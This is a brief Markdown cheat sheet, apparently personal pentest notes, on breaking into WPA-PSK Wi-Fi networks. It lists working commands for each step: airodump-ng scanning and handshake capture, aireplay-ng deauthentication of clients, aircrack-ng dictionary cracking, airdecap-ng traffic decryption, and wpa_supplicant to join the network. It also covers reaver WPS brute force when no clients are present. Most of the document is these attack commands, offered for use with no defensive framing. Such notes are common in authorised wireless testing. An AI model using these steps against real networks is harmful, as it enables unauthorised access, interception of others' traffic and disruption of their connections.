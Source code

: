 # PSK

- Scan the network to locate target
    - `sudo airodump-ng wlan0mon`
- Once target is found, specify the bssid, channel using the same command
    - `sudo airodump-ng wlan0mon --bssid <AP MAC> -c <channel> -w <output_file>`
    
- Then run in parallel, DEAUTH attacks (sends 10 packets)
    - `sudo aireplay-ng -0 10 -a <AP MAC> -e <AP NAME> -c <CLIENT MAC> wlan0mon`
- Once handshake got detected, wait a few minutes with airodump-ng to decipher traffic using airdecap-ng
- Then crack it
    - `sudo aircrack-ng <output_file>.cap -w /usr/share/john/password.lst`
    

---

### There are other things you can do with the pcap file

- Finding the actual traffic using airdecap-ng
    - `sudo airdecap-ng -e <AP NAME> -p <PASSWORD> <output_file>.cap`
- Then open wireshark to look at the new pcap file generated

### To connect to the AP for whatever reason

- Create a config file
    - `vi <filename>.conf`
        
        ```bash
        network={
        	ssid="<SSID-NAME>"
        	psk="$PASSWORD"
        	scan_ssid=1
        	key_mgmt=WPA-PSK # depends on the protocol used
        	proto=WPA2 # depends on the above
        }
        ```
        
- Run wpa_supplicant to connect to the AP manually
    - `sudo wpa_supplicant -Dnl80211 -iwlan1 -c <filename>.conf`
- Run DHCP client to get the IP address of the server
    - `dhclient wlan1 -v`

---

### In the case where there are NO CLIENTS in the AP

- Check whether the AP uses WPS
    - `sudo airodump-ng --bssid <AP MAC> -c <channel_number> --wps wlan0mon`
    
    ![Untitled](Untitled%2042.png)
    
    *if it does, it will look something like this*
    
- Then perform brute force attack using reaver
    - `sudo reaver -i wlan0mon -b <AP MAC>`